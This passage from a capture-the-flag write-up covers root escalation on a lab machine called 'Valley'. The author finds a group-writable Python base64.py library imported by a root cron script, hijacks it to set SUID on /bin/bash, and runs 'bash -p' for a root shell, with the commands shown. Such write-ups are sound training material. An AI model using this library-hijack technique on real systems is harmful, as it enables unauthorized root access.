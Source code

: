 ```
     https://ubuntu.com/pro
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

valley@valley:~$ 
```
Here also, I ran the `id` command and found the user to be in the group of `valleyAdmin`.

Check what files are owned by this group:
```
valley@valley:~$ find / -group valleyAdmin 2>/dev/null
/usr/lib/python3.8
/usr/lib/python3.8/base64.py
...
```

```
valley@valley:/usr/lib/python3.8$ ls -l base64.py 
-rwxrwxr-x 1 root valleyAdmin 20382 Mar 13  2023 base64.py
```

When I discovered the 'photosEncrypt.py' from crontabs, I tried examining the code and found that it imports base64. And as valley, and being in the valleyAdmin group, I can edit the 
base64.py file.

And then upon searching on Google, I found of using the 'os' module in Python and then:
![Screenshot 2024-06-30 223000](https://github.com/satyamraj17/HTB-THM-Writeups/assets/139890312/7b1c0cfe-be55-415b-b1df-436163399401)

The photosEncrypt.py file runs every minute and after 1 minute, we will be getting this:
```
valley@valley:/photos/script$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

With SUID permissions on a binary, the next thing to do is to go to GTFO Bins.
```
valley@valley:/photos/script$ /bin/./bash -p
bash-5.0# whoami
root
bash-5.0# 
```

With that getting the root permission.
